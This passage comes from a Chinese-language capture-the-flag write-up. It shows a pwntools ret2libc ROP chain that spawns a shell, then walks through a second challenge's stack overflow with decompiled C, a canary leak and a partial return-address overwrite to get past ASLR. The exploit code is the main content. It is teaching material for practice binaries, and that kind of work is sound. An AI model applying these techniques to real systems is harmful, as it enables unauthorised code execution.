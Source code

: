 ```python
base = libc_leak - offset___libc_start_main_ret
system_addr = base + offset_system
binsh_addr = base + offset_str_bin_sh

pop_rdi = 0x400933

payload = '鸽子真香'.ljust(0x28,'a')
payload += p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)

p.recvuntil('?\n')
p.sendline(payload)

p.interactive()
```

## pwn3

本题 `vuln` 函数关键代码：

```c
puts("write some note:");
puts("  please input the note len:");
note_len = 0;
__isoc99_scanf("%d", &note_len);
puts("please input the note:");
read(0, thinking_note, (unsigned int)note_len);
puts("the note is:");
puts(thinking_note);
if (strlen(thinking_note) != 624 )
{
  puts("error: the note len must be  624");
  puts("  so please input note(len is 624)");
  read(0, thinking_note, 0x270uLL);
}
```

分析 `vul` 函数可知，`read` 处可以栈溢出，且长度也是我们可控的。第二次 `read` 时限制了长度最大为 `0x270`，而我们输入的 `thinking_note` 距离 `ebp` 是 `0x260` 也就是 `608` 字节。

本题开启了 canary 保护，因此首先需要泄露 canary，canary 位于 `ebp-0x8` 位置。泄露完后要返回到 `main`，但是开启了 ASLR 导致我们无法确定 `main` 的位置。然而，ASLR 不会随机化低 12 位。我们观察 IDA 发现 `vul` 函数返回到 `0xd2e` 而 `main` 位于 `0xd20`，因此只需要覆盖 `2e` 为 `20` 即可，不受 ASLR 影响。

```python
def ret2main():
    payload = flat('a'*600,canary,'a'*8,'\x20')
    p.sendafter('624)\n', payload)

def send(payload):
    p.sendlineafter('path:\n','flag')
    p.sendlineafter('len:\n','999')
    p.sendlineafter('note:\n',payload)
    p.recvuntil('aaaa\n')

# leak canary
send('a'*600)
canary = u64('\x00' + p.recv(7))
log.success('canary:' + hex(canary))
ret2main()
```
